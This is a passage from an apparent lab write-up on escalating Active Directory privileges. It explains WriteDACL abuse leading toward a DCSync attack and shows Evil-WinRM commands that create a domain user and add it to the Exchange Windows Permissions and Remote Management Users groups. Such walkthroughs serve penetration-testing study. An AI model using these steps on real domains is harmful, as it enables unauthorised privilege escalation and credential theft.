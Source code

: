 ![Partial display of results from &quot;Shortest Path to High Value Targets&quot; in Forest](../.gitbook/assets/1%20%287%29.png)



The WriteDACL permission means that we can change the permissions \(Access Control List ACL\) of a user to give them permissions that will allow us to exploit AD. The main path to do this is a DCSync attack which involves creating a user and then give the user Active Directory Replication rights \(Replicating Directory Changes All and Replicating Directory Changes\). Normally, replication is responsible for keeping backup copies of the domain synchronized.

To carry out this attack, we are going to use PowerView which can be obtained by cloning the PowerSploit repository from GitHub \(https://github.com/PowerShellMafia/PowerSploit.git\). We first create a user and then add them to the Exchange Windows Permissions group.

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user rin password123! /add /domain
The command completed successfully.
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" rin /add
The command completed successfully.
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net localgroup "Remote Management Users" rin /add
The command completed successfully.
```
